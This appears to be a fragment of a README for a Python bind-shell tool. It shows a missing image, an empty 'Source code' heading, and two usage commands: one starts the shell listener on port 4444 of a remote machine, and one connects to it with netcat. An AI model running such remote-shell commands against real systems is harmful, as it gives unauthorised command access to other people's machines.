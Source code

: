 Usage bind shell


on remote machine> python bindshell.py --port 4444

Catch with a listener on your host> nc 10.10.10.10 4444 -nv

